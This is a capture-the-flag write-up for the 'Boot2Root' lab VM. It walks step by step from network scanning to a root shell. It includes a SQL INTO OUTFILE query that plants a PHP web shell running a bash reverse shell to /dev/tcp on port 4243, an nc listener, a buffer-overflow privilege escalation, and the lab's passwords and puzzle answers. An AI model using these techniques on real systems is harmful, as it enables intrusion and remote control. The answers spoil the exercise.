 # Boot2Root WriteUp 1

## Step 0
Before doing anything, we need to setup the VM. More specificaly:
 - Switch the Network Adaptater to: `Host-Only Adapter` (Create the adaptater if it doesnt exist)
 - Allocate 10 core to the VM for the later dirtycow exploit

## Step 1
We dont have any ip address and any user to connect to. We need to find the local ip of the VM:
    
    $> ip addr show
        ...
        vboxnet0 ...
        inet 192.156.56.1/24 ...
        ....
We now have the address ip of the Virtual Box network interface.

We will use nmap to scan the range of ip and find some machine on it:

    $> nmap 192.156.56.1/24
        ...
        192.156.56.*
        ...

There it is we have our ip address: `192.156.56.*` !
## Step 2
Now that we have the ip address of our VM we can scan it using dirb inside a kali container:

    $> docker run -it kalilinux/kali-rolling:latest
    $> apt update && apt install -y dirb
    $> dirp https://192.156.56.*
    ...
    https://192.156.56.*/forum
    https://192.156.56.*/phpmyadmin
    https://192.156.56.*/webmail
    ...
Great we have 3 places to analyze !

`/phpmyadmin` and `/webmail` require an username and a password so we start with `/forum`

## Step 3
3 out of 4 articles are useless by the one named `Probleme Login ?` by `lmezard` contains information.
We see in the log that right before `lmezard` connection the log output:

    !q]Ej?5K5cyAJ username incorect

We assume `lmezard` is `stupid` and tried to connect with his password as his username.
Indeed we can login in the forum with this information:

    username: lmezard
    password: !q\]Ej?*5K5cy*AJ

## Step 4

In the forum profile of `lmezard` we get an email.

Lets try to connect through `/webmail` with :
    
    email: laurie@borntosec.net
    password: !q\]Ej?*5K5cy*AJ

Gotem ! We have access to his mails.

The only relevent mail here is `access db` which contains a password for the `root` user of the database.

    username: root
    password: Fg-'kKXBj87E:aJ$

## Step 5

We use the the previous password to access the database with a root access.

Thanks to this database root access, inserting some php file is now easy.
Lets create a `temp` database and run this querry on it:

    SQL>SELECT "<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.1/4243 0>&1'"); ?>" into outfile "/var/www/forum/templates_c/reverse.php"

We then run this command on the host machine:

    $> nc -nvlp 4243

Its then needed to load this url on the browser `${VM_IP}/forum/templates_c/reverse.php`.

We now have a shell as user `www-data`


## Step 6

When looking around, we find this file

    $> /home/LOOKATME/password

This file provide all the required information to connect to `lmezard` in the VM (not through ssh)

    uesrname: lmezard
    password: G!@M6f4Eatau{sF"

## Step 7

We find a README that say that the result password shall used to access with ssh `laurie` user and a zip archive on the `lmezard`'s home.

Inside there is a lot of pcap file with some C code in it and a file number information.
We use a python script called `pcap.py` to concatenate all the file and run the C program.

    $> python pcap.py
    $> gcc out.c
    $> ./a.out
        ...
        password: Iheartpwnage
        Now SHA-256 it and submit
        ...

so the result is :

    username: laurie
    password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

## Step 8

There is a `bomb` that will explode !

We need to reverse engineering the binary `bomb` to defuse it and access the next users.

- Phase 1: Public speaking is very easy.
 
- Phase 2: 1 2 6 24 120 720

- Phase 3: 1 b 214

- Phase 4: 9 austinpowers

- Phase 5: opekmq

- Phase 6: 4 2 6 3 1 5

There is a secret phase if we use specific answers.

- Secret Phase: 1001

We follow the README instruction and concatenate every answers without space

    username: thor
    password: Publicspeakingisveryeasy.126241207201b2149opekmq426135

## Step 9

There is a `turtle` file with some movement instructions.

We use a python script called `draw.py` to print the movements of the `turtle`.

![](image-1.png)

The word `SLASH` is hidded in this picture.

We MD5 `SLASH` thanks to the hint at the end of turtle file that say : Can you `digest` the `message` ? MD5 stand for Message Digest 5.

    username: zaz
    password: 646da671ca01bb5d84dbb5fb2238dc8e

## Step 10

There is a bin called `exploit_me` that is own by the `root` user but `zaz` can execute it.
When reverse engineering we see that the program is vulnerable to a buffer overflow:

![](image-2.png)

The size writen inside buf is controled by the user and checked by the program.
We use `payload.py` to generate a payload that will change the return address of strcpy by our shellcode.

Our shellcode will jump to the function `system` with the address of the string `"/bin/sh"`. This will effectively give us a root shell access.

    $> python payload.py
    $> ./exploit_me $(cat payload)
    $> whoami
        root
    $> id -u
        0

## Step 11

Done !
